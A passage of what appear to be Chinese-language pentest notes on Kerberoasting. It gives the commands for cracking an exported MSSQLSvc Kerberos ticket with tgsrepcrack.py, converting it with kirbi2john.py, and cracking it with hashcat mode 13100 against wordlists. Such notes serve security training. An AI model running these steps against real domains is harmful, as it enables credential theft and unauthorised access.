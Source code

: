 ![](vx_images/3203301116557.png)

4. 使用 kerberoast 工具集中的`tgsrepcrack.py`脚本进行破解

```
python tgsrepcrack.py pwdtop100.txt MSSQLSvc~TEST1.mortal.com~1433-MORTAL.COM.kirbi
```

PS: 本地未解开

5. 但是不推荐使用`tgsrepcrack.py`, 这里先用 kerberoast 工具集中的`kirbi2john.py`将.kirbi 文件转换为 hashcat 的格式

```
python .\kirbi2john.py .\file.kirbi
```

![](vx_images/3734923179392.png)

6. 使用 hashcat 去解, 其中将`-m`参数设为 13100

```
.\hashcat.exe -m 13100 .\kirbi-hash.txt .\passwd.txt
```
